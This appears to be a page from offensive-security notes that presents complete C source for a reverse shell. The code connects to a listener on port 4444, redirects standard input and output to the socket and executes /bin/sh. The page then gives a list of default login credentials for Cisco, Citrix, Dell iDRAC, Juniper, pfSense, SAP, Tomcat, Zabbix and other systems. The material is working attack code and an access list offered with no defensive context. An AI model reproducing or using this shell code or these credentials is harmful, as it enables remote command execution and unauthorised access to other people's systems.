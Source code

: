 ```yaml
---
description: Reverse shell to local host in C
---
```


# C Reverse Shell

```text
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main ()
{
    const char* ip = "127.0.0.1";
    struct sockaddr_in addr;

    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    inet_aton(ip, &addr.sin_addr);

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    for (int i = 0; i < 3; i++)
    {
        dup2(sockfd, i);
    }

    execve("/bin/sh", NULL, NULL);

    return 0;
}

```


Cisco: cisco:cisco
Citrix: nsroot:nsroot
Dell iDRAC: root:calvin
Juniper: super:juniper123
pfSense: admin:pfsense
SAP: SAP*:06071992
Tomcat: tomcat:tomcat
UniFi: ubnt:ubnt
Weblogic: weblogic:weblogic1
Zabbix: Admin:zabbix



